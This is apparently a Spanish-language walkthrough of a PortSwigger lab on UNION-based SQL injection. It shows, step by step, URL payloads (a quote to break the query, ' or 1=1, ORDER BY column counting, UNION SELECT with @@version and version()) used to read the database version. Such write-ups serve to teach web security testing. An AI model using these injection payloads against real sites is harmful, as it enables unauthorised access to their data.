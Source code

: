 ```yaml
---
title: ""
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-13 12:34:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on MySQL and Microsoft
  - Microsoft SQL Server
  - MySQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Hay que utilizar un `ataque UNION` para `recuperar` los `resultados` de la consulta, para `resolver` el `laboratorio` debemos `mostrar` la `versión` de la `base` de `datos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-4/image_1.png)

`Pinchamos` en alguna de las `categorías`, `capturamos` la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-4/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-4/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Gifts'+or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-4/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Gifts'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es `ignorar` el resto de la `query`

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Gifts'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-4/image_5.png)

Sin embargo. si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Gifts'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-4/image_6.png)

A continuación usamos `union select` para señalar ambos campos, debido a que la `query` no ha dado ningún `error`, podemos `descartar` que el tipo de base de datos sea `Oracle`. Si fuera `Oracle` daría un error debido a que hay que añadir `from dual` al `union select`

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Con `@@version` podemos `enumerar` la `versión` de las `bases` de `datos` de `Microsoft` y las `MySQL`

```
/filter?category=Gifts'+union+select+null,@@version--+-+
```

![](/assets/img/SQLI-Lab-4/image_7.png)

También es posible `enumerar` las bases de datos `MySQL` usando `version()` en ciertos casos

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-4/image_8.png)
